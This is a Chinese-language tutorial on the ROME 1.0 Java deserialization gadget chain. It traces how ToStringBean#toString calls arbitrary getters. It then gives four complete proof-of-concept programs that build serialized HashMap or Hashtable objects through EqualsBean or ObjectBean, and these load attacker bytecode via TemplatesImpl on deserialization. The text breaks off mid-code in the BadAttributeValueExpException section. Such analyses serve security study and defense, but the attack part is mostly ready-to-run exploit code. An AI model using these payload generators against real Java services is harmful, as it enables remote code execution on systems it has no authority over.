# ROME介绍

关于ROME的介绍在 https://rometools.github.io/rome/ 官方文档里是这样说的

```java
ROME is a Java framework for RSS and Atom feeds. It's open source and licensed under the Apache 2.0 license.

ROME includes a set of parsers and generators for the various flavors of syndication feeds, as well as converters to convert from one format to another. The parsers can give you back Java objects that are either specific for the format you want to work with, or a generic normalized SyndFeed class that lets you work on with the data without bothering about the incoming or outgoing feed type.
```

翻译过来就是

```java
ROME 是一个用于 RSS 和 Atom 源的 Java 框架。它是开源的，并采用 Apache 2.0 许可证。

ROME 包含一系列解析器和生成器，用于处理各种类型的聚合源，以及用于在不同格式之间进行转换的转换器。解析器可以返回 Java 对象，这些对象要么是特定于您所需格式的对象，要么是一个通用的规范化 SyndFeed 类，让您可以处理数据而无需关心输入或输出的源类型。
```

简单来说，ROME 是一个用于处理 **RSS** 和 **Atom** 聚合（Syndication）源的 Java 框架，可以从一种格式转换成另一种格式，也可返回指定格式或 Java 对象。ROME 兼容了 RSS (0.90, 0.91, 0.92, 0.93, 0.94, 1.0, 2.0), Atom 0.3 以及 Atom 1.0 feeds 格式。

# 影响版本&环境搭建

ROME = 1.0

在pom.xml中添加ROME依赖

```xml
      <dependency>
        <groupId>rome</groupId>
        <artifactId>rome</artifactId>
        <version>1.0</version>
      </dependency>
```

其实和Fastjson一样，都是调用任意类的getter方法，而ROME反序列化链子的本质就在于该组件中的`ToStringBean#toString(String prefix)`可以调用任意getter方法



# 为何能调用任意getter

在讲链子之前先了解一下这个组件的toString方法为什么能触发类的getter方法+

```java
    private String toString(String prefix) {
        StringBuffer sb = new StringBuffer(128);
        try {
            PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(_beanClass);
            if (pds!=null) {
                for (int i=0;i<pds.length;i++) {
                    String pName = pds[i].getName();
                    Method pReadMethod = pds[i].getReadMethod();
                    if (pReadMethod!=null &&                             // ensure it has a getter method
                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                        Object value = pReadMethod.invoke(_obj,NO_PARAMS);
                        printProperty(sb,prefix+"."+pName,value);
                    }
                }
            }
        }
        catch (Exception ex) {
            sb.append("\n\nEXCEPTION: Could not complete "+_obj.getClass()+".toString(): "+ex.getMessage()+"\n");
        }
        return sb.toString();
    }
```

利用java的内省机制，通过`getPropertyDescriptors`函数获取`_beanClass`类的所有符合JavaBean规范的"属性"包括属性名以及属性对应的getter方法和setter方法

我们跟进getPropertyDescriptors函数看看

```java
    public static synchronized PropertyDescriptor[] getPropertyDescriptors(Class klass) throws IntrospectionException {
        PropertyDescriptor[] descriptors = (PropertyDescriptor[]) _introspected.get(klass);
        if (descriptors==null) {
            descriptors = getPDs(klass);
            _introspected.put(klass,descriptors);
        }
        return descriptors;
    }
```

返回值是`PropertyDescriptor[]`，这是JavaBean中用来描述`属性`的对象，然后klass就是需要内省的类

先是从缓存中尝试获取这个类，如果没有就调用getPDs方法，我们跟进

```java
    private static PropertyDescriptor[] getPDs(Class klass) throws IntrospectionException {
        Method[] methods = klass.getMethods();
        Map getters = getPDs(methods,false);
        Map setters = getPDs(methods,true);
        List pds     = merge(getters,setters);
        PropertyDescriptor[] array = new PropertyDescriptor[pds.size()];
        pds.toArray(array);
        return array;
    }
```

分别获取getter方法和setter方法，合并为完整的PropertyDescriptor列表，再以数组返回

回到toString函数中，如果最后的列表不为空的话就会遍历列表中的每个属性对象，getName方法用来获取属性名称，而getReadMethod方法用来获取该属性的getter方法，所以**这里会遍历每个属性的getter方法并进行反射调用**

其实在这个toString方法前还有一个无参的toString方法

```java
    public String toString() {
        Stack stack = (Stack) PREFIX_TL.get();
        String[] tsInfo = (String[]) ((stack.isEmpty()) ? null : stack.peek());
        String prefix;
        if (tsInfo==null) {
            String className = _obj.getClass().getName();
            prefix = className.substring(className.lastIndexOf(".")+1);
        }
        else {
            prefix = tsInfo[0];
            tsInfo[1] = prefix;
        }
        return toString(prefix);
    }
```

其实就是一个连接的桥梁罢了吗，`_obj`参数就是最终我们可以操作的地方，我们看一下构造方法

```java
    public ToStringBean(Class beanClass,Object obj) {
        _beanClass = beanClass;
        _obj = obj;
    }
```

结合之前的调用`TemplatesImpl::getOutputProperties()`就可以造成代码执行

写个demo测试一下

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Demo {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
        toStringBean.toString();
    }

    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```



没毛病，接下来我们找找触发toString的链子，主要分为两种，一种是直接触发一种是间接触发

# HashMap链触发toString

## EqualsBean#hashCode()

看到EqualsBean类的hashCode方法



这里hashCode方法调用了beanHashCode方法，而beanHashCode方法会调用toString方法

看一下EqualsBean的构造方法

```java
    public EqualsBean(Class beanClass,Object obj) {
        if (!beanClass.isInstance(obj)) {
            throw new IllegalArgumentException(obj.getClass()+" is not instance of "+beanClass);
        }
        _beanClass = beanClass;
        _obj = obj;
    }
```

obj参数可控，那就可以通过hashCode方法触发toString方法

再看看ObjectBean中的hashCode方法

## ObjectBean#hashCode()

`com.sun.syndication.feed.impl.ObjectBean` 是 Rome 提供的一个封装类，初始化时提供了一个 Class 类型和一个 Object 对象实例进行封装





ObjectBean 有三个成员变量，分别是 EqualsBean/ToStringBean/CloneableBean 类，这三个类为 ObjectBean 提供了 `equals`、`toString`、`clone` 以及 `hashCode` 方法。

在ObjectBean中的hashCode方法中

```java
    public int hashCode() {
        return _equalsBean.beanHashCode();
    }
```

这里_equalsBean封装了EqualsBean对象，并且调用了EqualsBean的beanHashCode方法，所以其实就比上面的链子换了一个调用点

找找怎么触发hashCode方法，那就不得不提到我们很熟悉的HashMap触发hashCode方法了




分析完了，那么利用HashMap触发EqualsBean#hashCode()再到toString的链子和POC如下

## EqualsBean最终链子1

```java
HashMap#readObject()->
    HashMap#hash()->
    	EqualsBean#hashCode()->
    		EqualsBean#beanHashCode()->
    			ToStringBean#toString()->
    				ToStringBean#toString()->
    					TemplatesImpl#getOutputProperties()->
    						CC3恶意加载字节码
```

## EqualsBean最终POC1

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class EqualsBeanHashMapPoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);
        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"111");

        serialize(hashMap);
        unserialize("EqualsBeanHashMapPoc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("EqualsBeanHashMapPoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

函数调用栈



利用HashMap触发ObjectBean#hashCode()再到toString的链子和POC如下

## ObjectBean最终链子2

```java
HashMap#readObject()->
    HashMap#hash()->
    	ObjectBean#hashCode()->
    		EqualsBean#beanHashCode()->
    			ToStringBean#toString()->
    				ToStringBean#toString()->
    					TemplatesImpl#getOutputProperties()->
    						CC3恶意加载字节码
```

## ObjectBean最终POC2

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class ObjectBeanHashMapPoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);
        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(objectBean,"111");

        serialize(hashMap);
        unserialize("ObjectBeanHashMapPoc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ObjectBeanHashMapPoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}

```



当然这里也可以用HashTable也可以触发toString

# HashTable链触发toString

在HashTable的readObject方法中



没用明显的看到有调用hashCode，我们跟进reconstitutionPut函数



这里也会调用到hashCode方法，那么我们的poc就是

## EqualsBean最终POC1

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.Hashtable;

public class EqualsBeanHashtablePoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);
        Hashtable hashtable = new Hashtable();
        hashtable.put(equalsBean,"111");

        serialize(hashtable);
        unserialize("EqualsBeanHashtablePoc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("EqualsBeanHashtablePoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}

```



## ObjectBean最终POC2

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.Hashtable;

public class ObjectBeanHashtablePoc {
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
//        toStringBean.toString();
        //触发toString方法
        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);
        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean,"111");

        serialize(hashtable);
        unserialize("ObjectBeanHashtablePoc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ObjectBeanHashtablePoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}

```


上面的触发hashCode是为了间接调用到toString，但是我们也可以直接触发toString方法

# BadAttributeValueExpException链触发toString

这个很常规了，在Fastjson的反序列化中也介绍过

在BadAttributeValueExpException#readObject方法中

```java
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
